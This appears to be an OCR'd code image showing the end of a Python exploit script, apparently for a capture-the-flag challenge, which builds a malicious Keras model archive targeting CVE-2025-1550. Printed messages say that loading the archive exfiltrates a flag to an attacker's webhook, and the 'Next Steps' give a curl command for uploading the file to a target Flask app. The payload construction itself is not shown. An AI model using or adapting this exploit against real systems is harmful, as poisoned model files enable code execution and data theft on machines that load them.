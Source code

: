 ```python
shutil.rmtree(temp_extracted_dir)

os.remove(temp_model_path)

print("[*] Cleaned up temporary files.")

except Exception as e:

print(f"[!] Error during cleanup: {e}")

  

print("\nWARNING: This archive is designed to exploit CVE-2025-1550.")

print("Loading it on a vulnerable system will attempt to exfiltrate the FLAG to your webhook.")

  

if __name__ == "__main__":

# Ensure TensorFlow is installed for this script to run

try:

import tensorflow as tf

print(f"TensorFlow version: {tf.__version__}")

print(f"Keras version: {keras.__version__}")

except ImportError:

print("Please install TensorFlow: pip install tensorflow")

exit(1)

  

create_malicious_keras_archive()

  

print("\n--- Next Steps ---")

print("1. Go to your webhook URL (e.g., https://webhook.site/) to monitor incoming requests.")

print("2. Upload the generated 'malicious_model.keras' file to the target Flask app.")

print(" Example using curl:")

print(f" curl -X POST -F \"file=@malicious_model.keras\" http://<TARGET_IP>:<TARGET_PORT>/upload")

print("3. Check your webhook site for an incoming POST request containing the flag.")
```
